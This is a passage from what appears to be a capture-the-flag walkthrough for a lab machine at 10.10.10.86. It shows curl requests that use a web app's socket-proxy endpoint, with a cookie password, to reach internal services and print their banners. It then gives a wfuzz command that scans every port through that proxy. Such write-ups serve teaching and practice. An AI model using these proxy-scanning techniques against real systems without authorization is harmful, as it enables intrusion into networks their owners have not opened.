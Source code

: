     <p>Output</p>
    <pre>
    220 (vsFTPd 3.0.3)
    530 Please login with USER and PASS.

    </pre>


    </div>
    </body>
    <.md>



Similarly, port 22 and 80 return errors about ssh and http:



    root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=22&cmd=0xdf'
    ...[snip]...
    <p>Output</p>
    <pre>
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
    Protocol mismatch.

    </pre>
    ...[snip]...

    root@kali# curl -H "Cookie: password=secret" 'http://10.10.10.86:8080/socket?port=80&cmd=0xdf'
    ...[snip]...
    <p>Output</p>
    <pre>
    HTTP/1.1 400 Bad Request
    Server: nginx/1.10.3 (Ubuntu)
    Date: Tue, 29 Jan 2019 14:25:16 GMT
    Content-Type: text.md
    Content-Length: 182
    Connection: close

    &lt.md&gt;
    &lt;head&gt;&lt;title&gt;400 Bad Request&lt;/title&gt;&lt;/head&gt;
    &lt;body bgcolor=&#34;white&#34;&gt;
    &lt;center&gt;&lt;h1&gt;400 Bad Request&lt;/h1&gt;&lt;/center&gt;
    &lt;hr&gt;&lt;center&gt;nginx/1.10.3 (Ubuntu)&lt;/center&gt;
    &lt;/body&gt;
    &lt;.md&gt;

    </pre>
    ...[snip]...



This form seems to be proxying tcp connections. I'll use `wfuzz` again,
this time to look for what ports are open. I'll filter out responses
that are 500:



    root@kali# wfuzz -c -z range,1-65535 -u 'http://10.10.10.86:8080/socket?port=FUZZ&cmd=abc' -H "Cookie: password=secret" --hc=500
